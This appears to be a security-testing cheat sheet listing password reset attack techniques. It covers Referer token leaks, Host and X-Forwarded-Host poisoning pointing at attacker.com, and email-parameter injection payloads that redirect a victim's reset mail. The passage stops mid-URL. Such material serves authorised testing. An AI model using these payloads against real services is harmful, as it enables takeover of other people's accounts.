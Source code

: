 # Password Reset Token Leak Via Referrer
1.Request password reset to your email address

2.Click on the password reset link

3.Don’t change password

4.Click any 3rd party websites(eg: Facebook, twitter)

5.Intercept the request in Burp Suite proxy

6.Check if the referer header is leaking password reset token.

# Password Reset Poisoning
1.Intercept the password reset request in Burp Suite

2.Add or edit the following headers in Burp Suite : Host: attacker.com, X-Forwarded-Host: attacker.com

3.Forward the request with the modified header [http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com]

4.Look for a password reset URL based on the host header like : [https://attacker.com/reset-password.php?token=TOKEN]

# Password Reset Via Email Parameter

> parameter pollution
email=victim@mail.com&email=hacker@mail.com

> array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

> carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

> separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com


# Leaking Password Reset Token
1.Trigger a password reset request using the API/UI for a specific email e.g: test@mail.com

2.Inspect the server response and check for resetToken

3.Then use the token in an URL like https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL
